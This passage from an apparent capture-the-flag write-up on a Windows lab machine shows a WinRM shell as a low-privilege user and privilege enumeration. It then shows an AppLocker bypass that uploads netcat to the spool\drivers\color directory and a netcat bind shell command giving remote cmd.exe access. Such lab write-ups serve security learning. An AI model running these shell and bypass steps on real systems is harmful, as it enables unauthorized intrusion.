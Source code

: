 ```ruby
    puts "Exiting with code #{output.exitcode}"
end
```

I can connect successfully and now have a shell as user `simple`:

```
# proxychains ./winrm-simple.rb 
ProxyChains-3.1 (http://proxychains.sf.net)
PS hackback\simple@HACKBACK Documents>

PS hackback\simple@HACKBACK util> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State  
============================= ========================================= =======
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Enabled

PS hackback\simple@HACKBACK util> net users simple
User name                    simple
Full Name                    simple
[...]

Local Group Memberships      *project-managers     *Remote Management Use
                             *Users                
```

No user flag yet though.

### Escalating to user hacker

That WinRM shell was very slow so I spawned a bind shell on port 4442 with netcat to speed things up a little bit.

Initially I tried uploading netcat to `\programdata` but found out that AppLocker was blocking it so instead I uploaded it to a directory not controlled by AppLocker:`./hackback_write.py "/Windows/System32/spool/drivers/color/nc.exe" nc.exe`

```
C:\Windows\System32\spool\drivers\color\nc.exe -e cmd.exe -L -p 4442
[...]
# proxychains nc -nv 127.0.0.1 4442
ProxyChains-3.1 (http://proxychains.sf.net)
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Connected to 127.0.0.1:4442.
Microsoft Windows [Version 10.0.17763.292]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\util>whoami
whoami
hackback\simple
```
